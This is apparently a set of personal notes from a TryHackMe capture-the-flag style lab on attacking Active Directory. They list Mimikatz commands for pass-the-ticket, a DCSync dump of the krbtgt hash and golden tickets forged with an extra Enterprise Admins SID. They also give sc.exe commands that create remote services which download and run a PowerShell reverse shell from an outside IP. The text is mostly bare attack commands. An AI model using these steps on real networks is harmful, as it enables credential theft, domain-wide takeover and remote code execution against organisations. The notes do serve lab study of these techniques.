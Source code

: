 

mimikatz
 privilege::debug
 kerberos::ptt administrator.kirbi


 create service
 sc.exe \\THMDC.za.tryhackme.loc create THMservice-3243 binPath= "cmd.exe /c powershell -ep bypass iex(New-Object Net.Webclient).DownloadString('http://10.50.57.65:81/Invoke-PowerShellTcp.ps1')" start= auto

sc.exe \\THMDC.za.tryhackme.loc start THMservice-3243



# Exploiting Domain Trusts 

dump krbtgt
privilege::debug
lsadump::dcsync /user:za\krbtgt

Inter-Realm TGTs
access resource on other domain

Mimikatz can assist with this, allowing us to set the ExtraSids section of the KERB_VALIDATION_INFO structure of the Kerberos TGT.


the ExtraSids section is described as “A pointer to a list of KERB_SID_AND_ATTRIBUTES structures that contain a list of SIDs corresponding to groups in domains other than the account domain to which the principal belongs”.


SID of the Enterprise Admins (EA) group as an extra SID 



two SIDs:

    The SID of the child domain controller (THMDC), which we will impersonate in our forged TGT

Get-ADComputer -Identity "THMDC"


    The SID of the Enterprise Admins in the parent domain, which we will add as an extra SID to our forged TGT 

Get-ADGroup -Identity "Enterprise Admins" -Server thmrootdc.tryhackme.loc


Exploiting Domain Trusts

privilege::debug
kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:S-1-5-21-3885271727-2693558621-2658995185-1001 /service:krbtgt /rc4:<Password hash of krbtgt user> /sids:<SID of Enterprise Admins group> /ptt



sc.exe \\thmrootdc.tryhackme.loc create THMservice-3243 binPath= "cmd.exe /c powershell -ep bypass iex(New-Object Net.Webclient).DownloadString('http://10.50.57.65:81/Invoke-PowerShellTcp.ps1')" start= auto
